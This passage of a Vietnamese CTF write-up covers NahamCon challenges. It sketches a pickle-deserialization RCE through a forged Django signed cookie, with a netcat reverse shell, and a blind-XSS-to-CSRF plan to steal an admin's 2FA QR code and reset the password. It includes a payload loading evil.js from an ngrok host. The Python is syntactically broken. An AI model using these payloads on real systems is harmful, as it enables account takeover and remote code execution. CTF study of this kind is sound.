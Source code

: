 ```python

def sign(SECRET_KEY, salt);
    content['cookies'] = RCE()
    cookies = pickle.dumps(content, key=SECRET_KEY, serializer=PickleSerializer, salt=salt, compress=True)

    return cookies


SECRET_KEY = "77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!"
salt = "django.contrib.sessions.backends.signed_cookies" # default salt thôi
app_cookies = 'UNKNOWN'

if __name__ == '__main__':
    print(verify(app_cookies, SECRET_KEY, salt))
    print(sign(SECRET_KEY, salt))
    
# Code nhằm mục đích mô phỏng vì chall đã đóng, khá chắc là không chạy được, link solution: https://www.youtube.com/watch?v=9j74Wi6daEU
```
Mở tai lên(netcat) và nghe reverse shell dội về thôi!!

**Flag**: `pass`

## Two For One
Blind XSS make cross-site request forgery đánh cắp 2FA QR code sau đó reset password chiếm tài khoản admin

### Description
Need to keep things secure? Try out our safe, the most secure in the world!

### Solution

#### Review
- Chall truy cập vào redirect đến register page, thử đăng kí username là admin thì báo lỗi username đã tồn tại => Có lẽ mục đích là trộm cắp gì đó của admin.

- Việc login và register yêu cầu scan QR 2FA để lấy code mỗi lần truy cập

- Quét QR xong, vào có trang chứa secret, có page settings gồm các chức năng: Reset password, Reset2FA và Feedback.

+ Phần reset password chỉ cần nhập mật khẩu muốn đổi + 2FA code

+ Phần reset 2FA chỉ cần scan QR code để đổi mới, khi request QR mới, một request được gửi đi và response về đường link chứa QR tựa như: 

http://challenge.nahamcon.com:31169/reset2fa
```
{"url":"otpauth://totp/Fort%20Knox:2?secret=VOEJIF5EA7UDKTAS&issuer=Fort%20Knox"}
```

+ Phần feedback dính lỗi XSS từ phía admin, triger để test đơn giản: <scirpt src="http://e405-42-112-56-248.ngrok.io/evil.js"></scirpt>
